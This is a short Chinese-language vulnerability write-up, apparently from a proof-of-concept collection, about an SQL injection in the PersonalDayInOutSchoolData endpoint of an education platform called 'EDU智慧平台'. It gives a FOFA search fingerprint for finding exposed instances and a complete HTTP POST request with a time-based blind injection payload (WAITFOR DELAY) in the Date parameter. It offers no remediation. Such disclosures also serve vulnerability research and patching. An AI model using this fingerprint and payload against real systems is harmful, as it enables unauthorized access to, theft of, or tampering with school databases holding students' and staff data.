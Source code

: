 # EDU智慧平台PersonalDayInOutSchoolData存在SQL注入漏洞

EDU智慧平台PersonalDayInOutSchoolData存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```javascript
body="custom/blue/uimaker/easyui.css"
```

## poc

```javascript
POST /ashx/APP/InOutSchoolService.ashx?action=PersonalDayInOutSchoolData&Date=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&AccountNo=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

![image-20240923093100931](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409230931999.png)